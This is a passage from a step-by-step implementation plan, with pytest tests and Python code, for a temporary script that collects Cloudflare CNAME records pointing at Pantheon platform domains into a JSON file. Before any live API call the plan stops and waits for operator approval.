warnings == []\n\n\ndef test_collect_entries_normalizes_the_key_and_keeps_origins_raw(fpc):\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(name=\"WWW.Example.EDU.\",\n                           content=\"Live-Umich-Example1.PantheonSite.IO\"))])\n    assert list(entries) == [\"www.example.edu\"]\n    assert entries[\"www.example.edu\"][\"origins\"] == [\"Live-Umich-Example1.PantheonSite.IO\"]\n\n\ndef test_collect_entries_is_first_record_wins_across_zones_and_warns(fpc):\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\", proxied=True, ttl=1)),\n        (\"zone-b\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\", proxied=False, ttl=300)),\n    ])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"zone_id\"] == \"zone-a\"\n    assert entry[\"record_id\"] == \"rec-1\"\n    assert entry[\"proxied\"] is True\n    assert entry[\"ttl\"] == 1\n    assert entry[\"origins\"] == [\"live-a.pantheonsite.io\", \"live-b.pantheonsite.io\"]\n    assert len(warnings) == 1\n    assert \"www.example.edu\" in warnings[0]\n    assert \"zone-a\" in warnings[0]\n    assert \"zone-b\" in warnings[0]\n\n\ndef test_collect_entries_warns_for_two_matches_in_one_zone(fpc):\n    \"\"\"API-unreachable (a name holds at most one CNAME), but the file would keep one record_id\n    of two and feed a destructive rewrite, so silence is the wrong default.\"\"\"\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\")),\n        (\"zone-a\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\")),\n    ])\n    assert entries[\"www.example.edu\"][\"record_id\"] == \"rec-1\"\n    assert len(warnings) == 1\n    assert \"rec-1\" in warnings[0]\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'collect_entries'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `cloudflare_client`:\n\n```python\ndef plain(value):\n    \"\"\"A JSON-serializable copy of an SDK sub-model; anything already plain passes through.\n\n    record.settings is a pydantic model (cloudflare.types.dns.cname_record.Settings), which\n    json.dump cannot serialize.  mode=\"json\" also coerces any nested exotic types.  The\n    getattr guard is what lets the test fakes pass a plain dict or None.\n    \"\"\"\n    dump = getattr(value, \"model_dump\", None)\n    if dump is None:\n        return value\n    return dump(mode=\"json\")\n\n\ndef collect_entries(zone_records):\n    \"\"\"Fold (zone_id, record) pairs into the output mapping.  Returns (entries, warnings).\n\n    A record is kept only when it is a CNAME whose content is a *.pantheonsite.io hostname.\n    Proxy status is NOT part of the test -- that is exactly what separates this script from\n    fqdns.json, which is built with proxied=True and therefore cannot see a DNS-only record.\n\n    Every scalar (zone_id, record_id, proxied, ttl, comment, tags, settings) is\n    FIRST-RECORD-WINS, mirroring how fqdns.json already keeps only the first zone_id for a name.\n    `origins` accumulates every match, so a name that matches more than once stays visible in the\n    file and not only in the warning.\n\n    `zone_records` is consumed lazily, so the caller can hand over a generator and the whole\n    organization's record set is never held in memory at once.\n    \"\"\"\n    entries = {}\n    warnings = []\n    for zone_id, dns_record in zone_records:\n        if getattr(dns_record, \"type\", None) != \"CNAME\":\n            continue\n        content = getattr(dns_record, \"content\", None)\n        if content is None or not is_platform_domain(content):\n            continue\n        name = normalize(dns_record.name)\n        entry = entries.get(name)\n        if entry is None:\n            entries[name] = {\n                \"zone_id\": zone_id,\n                \"origins\": [content],\n                \"record_id\": dns_record.id,\n                # proxied is Optional[bool] on every record model (a None is possible); the\n                # getattr default also keeps the fold total for the namespace test fakes.\n                \"proxied\": bool(getattr(dns_record, \"proxied\", False)),\n                \"ttl\": getattr(dns_record, \"ttl\", None),\n                \"comment\": getattr(dns_record, \"comment\", None),\n                \"tags\": list(getattr(dns_record, \"tags\", None) or []),\n                \"settings\": plain(getattr(dns_record, \"settings\", None)),\n            }\n            continue\n        entry[\"origins\"].append(content)\n        # Warn on EVERY duplicate, not only a cross-zone one.  The file keeps one record_id of\n        # two and feeds a destructive rewrite, so silence is the wrong default even for the\n        # same-zone case -- which the Cloudflare API should make unreachable (a name may hold at\n        # most one CNAME), making a warning there a signal worth seeing.\n        if entry[\"zone_id\"] == zone_id:\n            warnings.append(\n                f\"ATTENTION: {name} has more than one platform-domain CNAME in zone {zone_id}, \"\n                f\"which the Cloudflare API should not permit; keeping record_id \"\n                f\"{entry['record_id']}\")\n        else:\n            warnings.append(\n                f\"ATTENTION: {name} has a platform-domain CNAME in more than one Cloudflare \"\n                f\"zone ({entry['zone_id']} and {zone_id}); keeping the first zone_id/record_id\")\n    return entries, warnings\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **35 passed** (23 + 12 here —\n`test_collect_entries_skips_everything_that_is_not_a_platform_cname` is parametrized over five\nrecords).\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): fold DNS records into the output mapping\"\n```\n\n---\n\n## Task 4: The atomic write\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `collect_entries`)\n- Modify: `.gitignore`\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `write_json_atomic(path, data) -> None`.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n# --- Task 4: the atomic write ----------------------------------------------------------------\n\ndef test_write_json_atomic_writes_sorted_indented_json_with_a_trailing_newline(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    fpc.write_json_atomic(str(target), {\"b\": {\"zone_id\": \"z\"}, \"a\": {\"zone_id\": \"y\"}})\n    text = target.read_text()\n    assert text.endswith(\"\\n\")\n    assert list(json.loads(text)) == [\"a\", \"b\"]\n    assert '    \"a\"' in text          # indent=4\n\n\ndef test_write_json_atomic_overwrites_an_existing_file_and_leaves_no_temp_file(fpc, tmp_path):\n    \"\"\"SPEC: the output file is regenerated in full on every run, whatever its age.\"\"\"\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"stale\": {\"zone_id\": \"old\"}}\\n')\n    fpc.write_json_atomic(str(target), {})\n    assert json.loads(target.read_text()) == {}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n\n\ndef test_write_json_atomic_leaves_the_previous_file_intact_when_serialization_fails(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"previous\": {\"zone_id\": \"kept\"}}\\n')\n    with pytest.raises(TypeError):\n        fpc.write_json_atomic(str(target), {\"bad\": {object()}})\n    assert json.loads(target.read_text()) == {\"previous\": {\"zone_id\": \"kept\"}}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'write_json_atomic'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `collect_entries`:\n\n```python\ndef write_json_atomic(path, data) -> None:\n    \"\"\"Write data as JSON to a temp file in the same directory, then os.replace() it onto `path`.\n\n    Copied from plugin/cloudflare/fqdns.py's write_fqdns_atomic.  Atomic: an interrupted write\n    never leaves a half-written or truncated output file -- the previous one stays byte-intact.\n    \"\"\"\n    directory = os.path.dirname(os.path.abspath(path)) or \".\"  # noqa: PTH120, PTH100 --\n    # feeds tempfile.mkstemp's dir=, load-bearing for the atomic-rename-needs-same-filesystem\n    # guarantee this docstring documents; Path.resolve() follows symlinks where\n    # os.path.abspath() does not, a real semantic difference for the symlink case\n    fd, tmp = tempfile.mkstemp(dir=directory, prefix=\".platform-domains-\", suffix=\".tmp\")\n    try:\n        with os.fdopen(fd, \"w\") as f:\n            json.dump(data, f, indent=4, sort_keys=True)\n            f.write(\"\\n\")\n        # mkstemp creates the temp file mode 0600, which os.replace would preserve; restore a\n        # normal umask-based mode (typically 0644) so other readers keep their access.\n        current_umask = os.umask(0)\n        os.umask(current_umask)\n        os.chmod(tmp, 0o666 & ~current_umask)  # noqa: PTH101 -- behavior surface, see above\n        os.replace(tmp, path)  # noqa: PTH105 -- THE atomic-replace call this docstring documents\n    except BaseException:  # incl. KeyboardInterrupt: drop the temp file, leave the old one intact\n        try:  # noqa: SIM105 -- not restructuring the BaseException cleanup handler's flow\n            os.unlink(tmp)  # noqa: PTH108 -- cleanup path of the same behavior surface\n        except FileNotFoundError:\n            pass\n        raise\n```\n\n- [ ] **Step 4: Ignore the generated output file**\n\nIn `.gitignore`, next to the existing `/fqdns.json` line:\n\n```\n/platform-domains-cloudflare.json\n```\n\n- [ ] **Step 5: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **38 passed** (35 + 3 here).\n\n- [ ] **Step 6: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py \\\n        .gitignore\ngit commit -m \"feat(find-platform-domains-cloudflare): write the output file atomically\"\n```\n\n---\n\n## Task 5: The walk and the CLI\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `write_json_atomic`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `collect_entries`, `plain` (Task 3), `cloudflare_client` (Task 2),\n  `write_json_atomic` (Task 4), `StartupError`, `OUTPUT_FILE`, `DEFAULT_CONFIG` (Task 1).\n- Produces:\n  - `expected_record_count(page) -> int | None`\n  - `api_error_text(e) -> str`\n  - `fetch_platform_cnames(client, *, verbose=False) -> tuple[dict, list[str], int, int]`\n    returning `(entries, warnings, zone_count, account_count)`\n  - `build_arg_parser() -> argparse.ArgumentParser`\n  - `main(argv) -> int`\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\n# --- Task 5: the walk and the CLI ------------------------------------------------------------\n\nclass FakePage:\n    \"\"\"A stand-in for SyncV4PagePaginationArray.\n\n    Iterating the real page object walks EVERY page (BaseSyncPage.__iter__ -> iter_pages), so\n    this fake yields across two chunks: an implementation that read `page.result` instead would\n    see only the first, and this fake has no `result` attribute at all, so it would fail loudly.\n    \"\"\"\n\n    def __init__(self, chunks, total_count=None, *, with_result_info=True):\n        self._chunks = chunks\n        self.result_info = types.SimpleNamespace(\n            model_extra={} if total_count is None else {\"total_count\": total_count},\n        ) if with_result_info else None\n\n    def __iter__(self):\n        for chunk in self._chunks:\n            yield from chunk\n\n\nclass FakeCloudflareClient:\n    \"\"\"The three list() calls fetch_platform_cnames makes, and nothing else.\"\"\"\n\n    def __init__(self, accounts, zones, pages_by_zone, error=None):\n        self._error = error\n        self._pages_by_zone = pages_by_zone\n        self.accounts = types.SimpleNamespace(list=lambda: list(accounts))\n        self.zones = types.SimpleNamespace(list=lambda account: list(zones))\n        self.dns = types.SimpleNamespace(records=types.SimpleNamespace(list=self._records))\n\n    def _records(self, zone_id):\n        if self._error is not None:\n            raise self._error\n        return self._pages_by_zone.get(zone_id, FakePage([[]]))\n\n\ndef account(identifier=\"acct-1\"):\n    return types.SimpleNamespace(id=identifier)\n\n\ndef zone(identifier, name=\"example.edu\"):\n    return types.SimpleNamespace(id=identifier, name=name)\n\n\ndef test_fetch_platform_cnames_walks_every_zone_regardless_of_proxy_status(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()],\n        zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\n            \"zone-a\": FakePage([[record(name=\"proxied.example.edu\", id=\"rec-1\", proxied=True),\n                                 record(name=\"mail.example.edu\", id=\"rec-2\", type=\"MX\",\n                                        content=\"mx.example.edu\")]]),\n            \"zone-b\": FakePage([[record(name=\"dnsonly.example.org\", id=\"rec-3\", proxied=False)]]),\n        })\n    entries, warnings, zone_count, account_count = fpc.fetch_platform_cnames(client)\n    assert sorted(entries) == [\"dnsonly.example.org\", \"proxied.example.edu\"]\n    assert entries[\"dnsonly.example.org\"][\"proxied\"] is False\n    assert warnings == []\n    assert (zone_count, account_count) == (2, 1)\n\n\ndef test_fetch_platform_cnames_reads_every_page(fpc):\n    \"\"\"Pagination: a single list() call is N HTTP requests, and a truncated walk would write a\n    silently incomplete file.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": FakePage(\n            [[record(name=\"page1.example.edu\", id=\"rec-1\")],\n             [record(name=\"page2.example.edu\", id=\"rec-2\")]], total_count=2)})\n    entries, _, _, _ = fpc.fetch_platform_cnames(client)\n    assert sorted(entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n\n\ndef test_fetch_platform_cnames_aborts_on_a_truncated_record_list(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": FakePage([[record()]], total_count=3)})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"truncated\" in str(caught.value)\n    assert \"read 1 DNS records but Cloudflare reported 3\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_does_not_abort_when_total_count_is_absent(fpc):\n    \"\"\"The cross-check must no-op wherever Cloudflare omits total_count, so it can never abort a\n    healthy sweep.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": FakePage([[record()]], with_result_info=False)})\n    entries, _, _, _ = fpc.fetch_platform_cnames(client)\n    assert list(entries) == [\"www.example.edu\"]\n\n\ndef test_fetch_platform_cnames_treats_zero_zones_as_fatal(fpc):\n    \"\"\"A missing scope and a genuinely empty org produce an identical empty file.\"\"\"\n    client = FakeCloudflareClient(accounts=[account()], zones=[], pages_by_zone={})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"0 zones\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_turns_an_api_error_into_a_startup_error(fpc):\n    import cloudflare\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")], pages_by_zone={},\n        error=cloudflare.APIConnectionError(request=None))\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"DNS records\" in str(caught.value)\n\n\ndef test_api_error_text_never_includes_the_response_body(fpc):\n    \"\"\"A DNS-record response body echoes record contents; an auth-failure body can echo the\n    credential.  The class plus the status code is what an operator needs.\"\"\"\n    class FakeStatusError(Exception):\n        status_code = 403\n\n        def __str__(self):\n            return \"Error code: 403 - {'errors': [{'message': 'token cf-secret-xyz invalid'}]}\"\n\n    text = fpc.api_error_text(FakeStatusError())\n    assert \"403\" in text\n    assert \"FakeStatusError\" in text\n    assert \"cf-secret-xyz\" not in text\n\n\ndef test_main_writes_the_file_and_reports_the_dns_only_count(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\", lambda client, verbose=False: (\n        {\"a.example.edu\": {\"zone_id\": \"z\", \"origins\": [\"live-a.pantheonsite.io\"],\n                           \"record_id\": \"r\", \"proxied\": False, \"ttl\": 1,\n                           \"comment\": None, \"tags\": [], \"settings\": None}},\n        [\"ATTENTION: something worth seeing\"], 4, 1))\n    assert fpc.main([\"-c\", \"ignored.toml\"]) == 0\n    written = json.loads((tmp_path / fpc.OUTPUT_FILE).read_text())\n    assert list(written) == [\"a.example.edu\"]\n    err = capsys.readouterr().err\n    assert \"ATTENTION: something worth seeing\" in err\n    assert \"Wrote 1 platform-domain CNAMEs (1 DNS-only\" in err\n    assert \"from 4 zones in 1 account(s)\" in err\n\n\ndef test_main_says_so_when_nothing_matched(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda client, verbose=False: ({}, [], 4, 1))\n    assert fpc.main([]) == 0\n    assert json.loads((tmp_path / fpc.OUTPUT_FILE).read_text()) == {}\n    assert \"no platform-domain CNAMEs found in 4 zones\" in capsys.readouterr().err\n\n\ndef test_main_reports_a_startup_error_as_exit_2(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n    assert fpc.main([\"-c\", str(tmp_path / \"nope.toml\")]) == 2\n    assert \"ERROR: cannot read\" in capsys.readouterr().err\n\n\ndef test_main_reports_an_interrupt_as_exit_130(fpc, tmp_path, monkeypatch, capsys):\n    monkeypatch.chdir(tmp_path)\n\n    def interrupt(config_path):\n        raise KeyboardInterrupt\n\n    monkeypatch.setattr(fpc, \"cloudflare_client\", interrupt)\n    assert fpc.main([]) == 130\n    assert \"INTERRUPTED\" in capsys.readouterr().err\n\n\ndef test_main_names_an_unwritable_output_file_instead_of_crashing(fpc, tmp_path, monkeypatch,\n                                                                  capsys):\n    \"\"\"An OSError here lands AFTER the whole multi-minute walk; it escaped as a raw traceback at\n    exit 1 until it was named (adversarial review, finding 3).\"\"\"\n    monkeypatch.chdir(tmp_path)\n    monkeypatch.setattr(fpc, \"cloudflare_client\", lambda config_path: object())\n    monkeypatch.setattr(fpc, \"fetch_platform_cnames\",\n                        lambda client, verbose=False: ({}, [], 1, 1))\n\n    def refuse(path, data):\n        raise OSError(28, \"No space left on device\")\n\n    monkeypatch.setattr(fpc, \"write_json_atomic\", refuse)\n    assert fpc.main([]) == 2\n    assert \"cannot write\" in capsys.readouterr().err\n```\n\n> Note for the implementer: `import cloudflare` inside a test body is deliberate — the file-top\n> import block is fixed by Task 1, and `PLC0415` (in-test imports) is in the `tests/**` ignore\n> list. `cloudflare.APIConnectionError(request=None)` was verified constructible against the\n> installed SDK (5.4.0); its MRO is `APIConnectionError → APIError → CloudflareError → Exception`,\n> so it exercises the `except cloudflare.CloudflareError` clause.\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'expected_record_count'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `write_json_atomic`:\n\n```python\ndef expected_record_count(page):\n    \"\"\"Cloudflare's total_count for a record page, or None when it is not available.\n\n    result_info's model (V4PagePaginationArrayResultInfo) declares only page/per_page, but its\n    model_config is extra=\"allow\", so the API's count/total_count survive as model_extra.\n    Returning None rather than guessing makes the caller's cross-check a no-op wherever the field\n    is absent, so it can never abort a healthy sweep.\n    \"\"\"\n    info = getattr(page, \"result_info\", None)\n    extra = getattr(info, \"model_extra\", None) or {}\n    total = extra.get(\"total_count\")\n    return total if isinstance(total, int) else None\n\n\ndef api_error_text(e):\n    \"\"\"A message for a Cloudflare API failure that NEVER includes the response body.\n\n    APIStatusError's str() is \"Error code: NNN - {body}\"; a DNS-record body echoes record\n    contents and an auth-failure body can echo the credential.  The class plus the status code is\n    what an operator needs in order to act.\n    \"\"\"\n    status = getattr(e, \"status_code\", None)\n    if status is not None:\n        return f\"{type(e).__name__}: HTTP {status}\"\n    return f\"{type(e).__name__}: {e}\"\n\n\ndef fetch_platform_cnames(client, *, verbose=False):\n    \"\"\"Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.\n\n    Returns (entries, warnings, zone_count, account_count).\n\n    No `proxied=` filter and no `type=` filter on the record list: every record in every zone is\n    fetched and inspected here.  That is what \"consider all DNS records\" means, and per the spec\n    no work goes into making it faster.  (If a run ever becomes painful, type=\"CNAME\" on the\n    list call below is the one-word change.)\n\n    `client.dns.records.list()` returns a page-numbered paginator -- iterating it walks every\n    page, stopping when a page comes back empty -- so a single call is N HTTP requests.  A\n    truncated walk would write a silently incomplete file, so each zone's record count is\n    cross-checked against Cloudflare's own total_count when the API supplies one.\n\n    Zero zones is fatal, copied from fqdns.py's reasoning: with the scope missing, \"no zones\" and\n    \"no matching records\" write an identical empty file, and a silently empty file is the one\n    failure mode this script must not have.\n    \"\"\"\n    try:\n        accounts = list(client.accounts.list())\n        zones = []\n        for account in accounts:\n            zones.extend(client.zones.list(account={\"id\": account.id}))\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing accounts/zones failed: {api_error_text(e)}\") from e\n\n    if not zones:\n        raise StartupError(\n            f\"Cloudflare returned {len(accounts)} account(s) but 0 zones -- the credentials \"\n            \"likely lack Account:Read or DNS:Read (an accounts list that comes back empty \"\n            \"yields zero zones too).\")\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, lazily -- the org's whole record set is never resident.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            if verbose:\n                print(f\"[{number}/{len(zones)}] zone {zone.name}\", file=sys.stderr, flush=True)\n            page = client.dns.records.list(zone_id=zone.id)\n            expected = expected_record_count(page)\n            seen = 0\n            for dns_record in page:\n                seen += 1\n                yield zone.id, dns_record\n            if expected is not None and seen != expected:\n                raise StartupError(\n                    f\"zone {zone.name}: read {seen} DNS records but Cloudflare reported \"\n                    f\"{expected} -- the record list was truncated, so the output would be \"\n                    \"silently incomplete; not writing a partial file\")\n\n    try:\n        entries, warnings = collect_entries(zone_records())\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing DNS records failed: {api_error_text(e)}\") from e\n\n    return entries, warnings, len(zones), len(accounts)\n\n\ndef build_arg_parser():\n    parser = argparse.ArgumentParser(\n        allow_abbrev=False,          # house rule: no --for -> --for-real class of foot-gun\n        description=\"Write every Cloudflare CNAME record pointing at a Pantheon platform \"\n                    f\"domain to {OUTPUT_FILE}.\")\n    parser.add_argument(\"-c\", \"--config\", default=DEFAULT_CONFIG,\n                        help=f\"TOML file to read [Cloudflare] credentials from \"\n                             f\"(default: {DEFAULT_CONFIG})\")\n    parser.add_argument(\"-v\", \"--verbose\", action=\"store_true\",\n                        help=\"print each zone to stderr as it is scanned\")\n    return parser\n\n\ndef main(argv):\n    \"\"\"Exit 0 = the output file was written, 2 = could not complete, 130 = interrupted.\n\n    There is deliberately no exit 1: the sibling find-platform-domains-dns reserves it for\n    \"completed with indeterminates\" because a DNS lookup can be indeterminate, whereas a\n    Cloudflare list call either returns or raises.  Holding that line takes the two conversions\n    to StartupError below and the two inside resolve_env_marker/cloudflare_client -- an OSError\n    on the write and a ValueError from shlex both escaped as raw tracebacks at exit 1 until they\n    were named (adversarial review, finding 3).  A doomed stderr can still produce exit 120 from\n    the interpreter's shutdown flush; that is accepted and documented in SPEC section 8.4.\n\n    stdout carries only argparse's usage/--help text; every operator message goes to stderr.\n    \"\"\"\n    options = build_arg_parser().parse_args(argv)\n    try:\n        client = cloudflare_client(options.config)\n        entries, warnings, zone_count, account_count = fetch_platform_cnames(\n            client, verbose=options.verbose)\n        for message in warnings:\n            print(message, file=sys.stderr, flush=True)\n        try:\n            write_json_atomic(OUTPUT_FILE, entries)\n        except OSError as e:\n            # A full disk or a read-only directory lands here AFTER the whole multi-minute walk.\n            raise StartupError(f\"cannot write {OUTPUT_FILE}: {e}\") from e\n        dns_only = sum(1 for entry in entries.values() if not entry[\"proxied\"])\n        print(f\"Wrote {len(entries)} platform-domain CNAMEs ({dns_only} DNS-only, invisible to \"\n              f\"fqdns.json) from {zone_count} zones in {account_count} account(s) to \"\n              f\"{OUTPUT_FILE}.\", file=sys.stderr, flush=True)\n        if not entries:\n            print(f\"ATTENTION: no platform-domain CNAMEs found in {zone_count} zones; \"\n                  f\"{OUTPUT_FILE} was written empty.\", file=sys.stderr, flush=True)\n    except StartupError as e:\n        print(f\"ERROR: {e}\", file=sys.stderr, flush=True)\n        return 2\n    except KeyboardInterrupt:\n        # The write is atomic, so the file is either untouched or complete -- never half-written.\n        print(f\"INTERRUPTED: {OUTPUT_FILE} is either unchanged or fully written.\",\n              file=sys.stderr, flush=True)\n        return 130\n    return 0\n\n\nif __name__ == \"__main__\":\n    sys.exit(main(sys.argv[1:]))\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: **50 passed** (38 + 12 here).\n\n- [ ] **Step 5: Run the whole gate**\n\nRun: `./run-tests --fast`\nExpected: ruff passes, pyright passes, the full offline suite is green with no new failures.\n\n- [ ] **Step 6: Prove the lint entries are load-bearing (a check that can go red)**\n\n```bash\n# With the Task 1 Step 5 entries in place:\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\n# -> All checks passed!\n\n# Now temporarily comment out BOTH \"find-platform-domains-cloudflare*\" per-file-ignores\n# entries in pyproject.toml and re-run:\nuvx ruff@0.15.22 check find-platform-domains-cloudflare\n# -> 6 errors, all T201.  Restore the entries.\n```\n\nMeasured: exactly **6 × T201**, and additionally `EXE001` if `chmod +x` was skipped. If the second\nrun reports zero errors, the entries are in the wrong place and the first run proved nothing.\n\n- [ ] **Step 7: Verify the CLI surface without touching Cloudflare**\n\n```bash\nsource .venv/bin/activate\n./find-platform-domains-cloudflare --help\n./find-platform-domains-cloudflare -c /nonexistent.toml ; echo \"exit=$?\"\n```\nExpected: usage text on **stdout**; then `ERROR: cannot read /nonexistent.toml: …` on **stderr**\nand `exit=2`.\n\n- [ ] **Step 8: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): walk every zone and write the output file\"\n```\n\n---\n\n## Task 6: Documentation and the live verification run\n\n**Files:**\n- Modify: `CLAUDE.md` (a subsection beside the existing `find-platform-domains-dns` one)\n- Modify: `development/2026-07-30-platform-domain-util2/SPEC.md` (record the live-run result in §12)\n\n**Interfaces:**\n- Consumes: the finished script.\n- Produces: nothing code-facing.\n\n- [ ] **Step 1: Add the CLAUDE.md subsection**\n\nImmediately after the existing `### \\`find-platform-domains-dns\\` (temporary utility)` subsection,\nadd:\n\n```markdown\n### `find-platform-domains-cloudflare` (temporary utility)\n\nA standalone, deletable script — **not** part of the main program and importing nothing from\n`psh/`/`check/`/`plugin/` — that writes every Cloudflare DNS **CNAME whose target ends in\n`.pantheonsite.io`** to `./platform-domains-cloudflare.json`. It is the Cloudflare-side\ncounterpart to `find-platform-domains-dns`: that one reads public DNS and is blind to a proxied\nrecord's target; `fqdns.json` is built with `proxied=True` and is blind to a DNS-only record.\nThis considers **all** records in **all** zones of every account the credentials can see.\n\nThe file is keyed by the **normalized** FQDN (`fqdns.json` keys by the raw `record.name` — any\ncomparison between the two must normalize both sides) with `{zone_id, origins, record_id,\nproxied, ttl, comment, tags, settings}`: `fqdns.json`'s two fields plus the six the downstream\nbatch rewrite needs, in both directions (`research.md` in the development folder). `settings` is\n`.model_dump()`ed — it is a pydantic model and would otherwise be unserializable. Every scalar is\n**first-record-wins**, `origins` accumulates, and **every** duplicate name warns on stderr. The\nfile is **regenerated in full on every run**, whatever its age; a run that matches nothing writes\n`{}` loudly rather than leaving a stale file.\n\nExit 0 = written, 2 = could not complete, 130 = interrupted; there is no exit 1. Exit 2 covers an\nunreadable config, a non-string or unresolvable credential, missing credentials, any Cloudflare\nAPI error, **zero zones** (a missing `Account:Read`/`DNS:Read` scope and an empty org otherwise\nproduce an identical empty file), **a truncated record list** (each zone's record count is\ncross-checked against Cloudflare's `total_count`, because `dns.records.list()` paginates and a\nshort read would ship a silently incomplete file), and an `OSError` writing the output. stdout\ncarries only argparse's usage/`--help`; everything else is stderr. Error text **never** includes\nan API response body.\n\nCredentials come from `[Cloudflare]` in the same TOML the main program reads, via a **copied**\n~25-line resolver handling only the `<{env NAME}` / `<{secret env NAME}` forms (with optional\ndefault); any other substitution, and any non-string value, is a named error rather than a silent\npassthrough. `enabled` is not consulted. **`build_client()` pins all four SDK credential\nfields**: the `cloudflare` SDK back-fills unset credentials from the environment, and ambient\nvalues reach the wire by two routes — `auth_headers` (which prefers `X-Auth-Email` over the\nbearer token) and `default_headers` — so an unpinned `api_token=` client on a host exporting\n`CLOUDFLARE_EMAIL` authenticates as that email and never sends the token. Measured against\ncloudflare 5.4.0. **`plugin/cloudflare/client.py` still has that latent defect**, live only if\n`api_token` is ever uncommented.\n\n```bash\n./find-platform-domains-cloudflare            # every zone, every account\n./find-platform-domains-cloudflare -v         # ... naming each zone on stderr\n```\n\n`find-platform-domains-cloudflare.py` is a committed symlink to the script above, same convention\nas `pantheon-sitehealth-emails.py` and `find-platform-domains-dns.py`: ruff, pyright, and\nCodeGraph key off the `.py` extension and would otherwise be blind to the extension-less real\nfile. **Delete this script after Pantheon's CDN migration** — checklist in\n`development/2026-07-30-platform-domain-util2/SPEC.md` §11.\n```\n\n- [ ] **Step 2: STOP — operator approval required before any live API call**\n\n> ## ⛔ STOP\n>\n> Steps 3–5 call the **live Cloudflare API with production credentials**. Everything before this\n> point is offline.\n>\n> **Do not proceed until the operator replies with the exact phrase:**\n>\n> ```\n> RUN THE LIVE SWEEP\n> ```\n>\n> Nothing else unlocks this step. Report that you are waiting, and stop.\n\n- [ ] **Step 3: Run the live sweep**\n\n```bash\nsource .venv/bin/activate\ntime ./find-platform-domains-cloudflare -v ; echo \"exit=$?\"\n```\n\nExpected: per-zone lines on stderr, then the summary, `exit=0`, and a\n`platform-domains-cloudflare.json` whose entries satisfy Step 